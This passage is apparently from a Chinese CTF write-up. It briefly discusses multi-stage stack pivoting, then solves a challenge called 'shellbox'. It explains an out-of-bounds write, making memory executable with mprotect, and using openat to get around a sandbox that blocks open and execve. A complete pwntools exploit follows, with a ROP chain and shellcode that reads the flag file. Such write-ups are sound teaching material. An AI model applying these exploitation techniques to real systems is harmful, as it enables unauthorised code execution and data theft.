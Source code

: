 ```python
p.interactive()
```

一个进阶版的栈迁移，其实本质就是，当栈迁移之后，溢出长度不够，不能一次性ROP秒掉的时候，就多迁移一次，每一次都要注意下一次迁移的栈布局，并没有太过于复杂的地方，只是需要细心，耐下心来，一点点的去写exp，一点点的调，不要妄想一次性通过脑洞，直接大脑生成一个三段迁移的exp。

# shellbox

循环中的i可越界写，构造栈溢出

静态链接，用程序中的mprotect改出可执行段

沙箱禁用了execve,open，用openat代替写orw的shellcode

```
from pwn import *
context(os='linux',arch='amd64',log_level='debug')
#p=remote('localhost',9000)
p=process('./pwn')
#libc = ELF("./libc.so.6")
elf = ELF('./pwn')
#gdb.attach(p,'b *0x401B57')
#pause()
mprotect=0x443520
pop_rdi=0x401a40
pop_rsi=0x401a42
pop_rdx=0x401a44
buf=0x4ceb60
bss=buf+0x200
shellcode=shellcraft.openat(-100,'./flag\x00')
shellcode+=shellcraft.read(3,bss,0x50)
shellcode+=shellcraft.write(1,bss,0x50)
payload=asm(shellcode)
log.debug(len(payload))
p.sendafter(b'fill it.\n',payload)
payload=b'aaaa'+p32(1)
rop=flat([
    pop_rdi,
    0x4ce000,
    pop_rsi,
    0x1000,
    pop_rdx,
    0x7,
    mprotect,
    buf
])
p.sendafter(b'>',payload)
for i in range(8):
    p.sendafter(b'>',rop[i*8:i*8+8])
p.interactive()
```

